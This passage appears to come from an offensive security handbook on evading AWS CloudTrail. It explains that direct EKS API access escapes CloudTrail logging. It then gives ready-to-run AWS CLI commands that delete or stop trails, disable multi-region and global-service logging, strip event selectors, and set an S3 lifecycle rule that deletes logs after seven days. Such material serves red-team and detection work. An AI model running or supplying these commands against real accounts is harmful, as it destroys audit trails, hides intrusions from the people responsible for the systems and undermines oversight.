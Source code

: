 ### Accessing Third Infrastructure

Certain AWS services will **spawn some infrastructure** such as **Databases** or **Kubernetes** clusters (EKS). A user **talking directly to those services** (like the Kubernetes API) **won’t use the AWS API**, so CloudTrail won’t be able to see this communication.

Therefore, a user with access to EKS that has discovered the URL of the EKS API could generate a token locally and **talk to the API service directly without getting detected by Cloudtrail**.

More info in:

{{#ref}}
../../aws-post-exploitation/aws-eks-post-exploitation.md
{{#endref}}

### Modifying CloudTrail Config

#### Delete trails

```bash
aws cloudtrail delete-trail --name [trail-name]
```

#### Stop trails

```bash
aws cloudtrail stop-logging --name [trail-name]
```

#### Disable multi-region logging

```bash
aws cloudtrail update-trail --name [trail-name] --no-is-multi-region --no-include-global-services
```

#### Disable Logging by Event Selectors

```bash
# Leave only the ReadOnly selector
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[{"ReadWriteType": "ReadOnly"}]' --region <region>

# Remove all selectors (stop Insights)
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[]' --region <region>
```

In the first example, a single event selector is provided as a JSON array with a single object. The `"ReadWriteType": "ReadOnly"` indicates that the **event selector should only capture read-only events** (so CloudTrail insights **won't be checking write** events for example).

You can customize the event selector based on your specific requirements.

#### Logs deletion via S3 lifecycle policy

```bash
aws s3api put-bucket-lifecycle --bucket <bucket_name> --lifecycle-configuration '{"Rules": [{"Status": "Enabled", "Prefix": "", "Expiration": {"Days": 7}}]}' --region <region>
```
